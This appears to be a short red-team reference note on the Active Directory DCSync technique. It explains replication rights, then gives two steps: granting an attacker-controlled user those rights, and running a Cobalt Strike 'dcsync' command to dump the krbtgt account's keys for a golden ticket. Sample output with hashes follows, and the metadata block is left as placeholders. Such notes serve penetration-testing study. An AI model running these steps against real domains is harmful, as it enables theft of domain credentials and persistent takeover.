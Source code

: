 # DCSync
DCSync is a technique which replicates the MS-DRSR protocol to replicate AD information, including password hashes. Under normal circumstances, this is only ever performed by (and between) Domain Controllers. There are specific DACLs relating to DCSync called **Replicating Directory Changes \[All/In Filtered Set\]**, which by default is only granted to Enterprise/Domain Admins and Domain Controllers.

These are set on the root domain object. Enterprise/Domain Admins can grant the Replicating Directory Change rights to other users, groups or computers.

1. Assign an additional attacker controlled user DCsync rights. [[PowerView#Assign rights DCSync]]
2. Perform a DCSync for the `EDU\krbtgt` which can create a golden ticket for everyone.
```beacon
beacon> getuid
[*] You are EDU\john

beacon> dcsync edu.evil.corp EDU\krbtgt
[DC] 'edu.evil.corp' will be the domain
[DC] 'dc-2.edu.evil.corp' will be the DC server
[DC] 'EDU\krbtgt' will be the user account

[...snip...]

* Primary:Kerberos-Newer-Keys *
 Default Salt : EDU.EVIL.IO/krbtgt
 Default Iterations : 4096
 Credentials
 aes256_hmac       (4096) : 390b2fdb13cc820d73ecf2dadddd4c9d76425d4c2156b89ac551efb9d591a8aa
 aes128_hmac       (4096) : 473a92cc46d09d3f9984157f7dbc7822
 des_cbc_md5       (4096) : b9fefed6da865732
```


## Tools
########
########


```meta
ttp: T1000
requirements:
results: 
description: 
```